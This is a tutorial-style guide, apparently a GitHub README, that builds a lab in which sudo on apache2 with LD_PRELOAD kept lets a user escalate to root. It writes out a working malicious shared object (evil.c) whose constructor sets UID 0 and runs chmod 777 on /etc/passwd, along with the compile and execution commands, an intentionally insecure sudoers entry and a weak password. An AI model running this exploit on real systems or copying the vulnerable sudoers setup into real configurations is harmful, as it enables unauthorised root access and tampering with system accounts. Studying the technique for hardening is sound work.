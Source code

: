 # Privilege Escalation Using LD_PRELOAD and Exploit with apache2

## Overview

  This guide demonstrates how to use the LD_PRELOAD environment variable for privilege escalation on a system running Apache2. It involves creating a malicious shared object (evil.so) that, when loaded with LD_PRELOAD, can allow an unprivileged user to gain root privileges and modify system files like /etc/passwd.

## Prerequisites

  • A Linux-based system (Ubuntu/Debian or similar)

  • The user site-admin has been granted sudo permissions to execute /usr/sbin/apache2

  • The ability to use LD_PRELOAD to load shared libraries before others

## Step 1: Install Apache2 and Configure Permissions

  Start by installing Apache2 and configuring the site-admin user:
      
      # Update the package list and install Apache2
      sudo apt update && sudo apt install apache2
      
      # Add the user 'site-admin' with a home directory and bash shell
      sudo useradd -m site-admin -s /bin/bash
      
      # Install sudo if not already installed
      sudo apt install sudo
      
      # Edit sudoers file to add the necessary privileges
      sudo visudo
  
  In the sudoers file, add the following lines:

      # Keep the LD_PRELOAD environment variable
      Defaults     env_keep += "LD_PRELOAD"
  
      # User privilege specification
      root    ALL=(ALL:ALL) ALL
      site-admin    ALL=(ALL:ALL) NOPASSWD: /usr/sbin/apache2
  
  Set the password for the site-admin user:

        echo 'site-admin:123' | sudo chpasswd

## Step 2: Check sudo Permissions for site-admin
  
      # SSH into the system as site-admin
      ssh site-admin@192.168.2.12
  
      # List sudo privileges for the user
      sudo -l

## Step 3: Exploit Privilege Escalation Using LD_PRELOAD

  **3.1: Create the Malicious Payload (evil.c)**
  
  Create a C file that will escalate privileges when loaded with LD_PRELOAD:

   
          # Create and edit the evil.c file
          vim evil.c
  
  Add the following code to evil.c:
  
          // evil.c - Simple privilege escalation payload
          #include <stdio.h>
          #include <stdlib.h>
          #include <unistd.h>
  
          void __attribute__((constructor)) init() {
              setuid(0);      // Set user ID to root
              setgid(0);      // Set group ID to root
              system("chmod 777 /etc/passwd");  // Change permissions of /etc/passwd
          }

  **3.2: Compile the Malicious Shared Object**

            # Compile the malicious shared object
            gcc -shared -o evil.so -fPIC evil.c


  **3.3: Verify the /etc/passwd File**
 
  Before executing the exploit, check the permissions of the /etc/passwd file:

    ls -lha /etc/passwd

  You should see something like this:

    -rw-r--r-- 1 root root 1.4K Feb 6 01:11 /etc/passwd

  **3.4: Execute the Exploit**
  
  Now, execute the apache2 binary with the malicious shared object loaded via LD_PRELOAD:

    # Execute apache2 with LD_PRELOAD set to the malicious shared object
    sudo LD_PRELOAD=/home/site-admin/evil.so /usr/sbin/apache2 -v

  **3.5: Verify the Exploit**

  After executing the exploit, verify that the permissions of /etc/passwd have been changed:

    ls -lha /etc/passwd

  The permissions should now be:

    -rwxrwxrwx 1 root root 1.4K Feb 6 01:11 /etc/passwd


## Step 4: Modify the /etc/passwd File

  You can now edit /etc/passwd to add a new root user or make other modifications:

      # Open /etc/passwd to make changes
      sudo vim /etc/passwd


# Conclusion

  By exploiting LD_PRELOAD, an attacker can load a malicious shared object and escalate privileges, potentially modifying critical system files like /etc/passwd. This demonstrates the power and danger of environment variables and the need for proper system hardening.

  
  



    
